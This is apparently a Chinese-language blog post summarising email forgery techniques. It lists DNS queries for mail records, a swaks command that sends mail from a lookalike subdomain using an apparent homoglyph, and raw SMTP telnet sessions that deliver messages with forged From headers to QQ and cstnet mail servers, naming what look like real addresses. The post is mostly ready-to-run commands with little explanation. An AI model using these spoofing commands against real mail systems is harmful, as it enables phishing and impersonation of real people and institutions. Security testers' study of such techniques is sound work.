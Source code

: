 ```yaml
---
layout: post
title: 伪造邮件发送技巧总结
category: 技巧
tags: Linux
keywords: swaks,email
---
```

* content
{:toc}



## 查询
```
nslookup -q=mx mesalab.cn
nslookup -q=txt mesalab.cn
```

## 发送
### 来自构造的子域名
```
swaks --to jiangph1001@163.com --from admin@qq.mesаlab.cn --body "warning" --header "Subject: Warning"
```


### 发送至qq的伪造邮件

```
telnet mx3.qq.com 25
ehlo imapmax.xyz
MAIL FROM:<admin@imapmax.xyz>
RCPT TO:<hetao_zj@foxmail.com>

DATA
From:hezhengjie@iie.ac.cn
To: hetao_zj@foxmail.com
Subject: Warning

Fake 666
.

QUIT
```

### 发送至cstnet
```
telnet mx.cstnet.cn 25
MAIL FROM:<test@imapmax.xyz>
RCPT TO:<jiangpenghui@mesalab.cn>

DATA


To: jiangpenghui@mesalab.cn
From: test@imapmax.xyz
Subject: Warning

Warning Message
.
```


### 发送至163


参考:
- [邮件伪造原理和实践](https://saucer-man.com/information_security/452.html)